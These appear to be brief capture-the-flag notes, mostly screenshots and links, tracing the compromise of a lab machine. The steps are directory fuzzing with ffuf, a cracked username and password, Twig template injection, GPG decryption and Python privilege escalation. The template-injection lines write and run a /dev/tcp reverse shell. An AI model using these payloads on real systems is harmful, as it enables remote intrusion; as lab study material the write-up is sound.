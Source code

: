 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

```
ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

```
{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1aea425a-35d0-48f9-b350-86b23d0d7b66)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49f94d47-ff23-42bc-8fe2-516a20ed51a9)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d100c7ce-18f4-4b06-b93b-8ec3f5fb5e6b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/de0edd24-ba7d-4278-8567-4b6b870f9fd1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/76fba23b-0037-470d-9492-a1ee729cbda3)






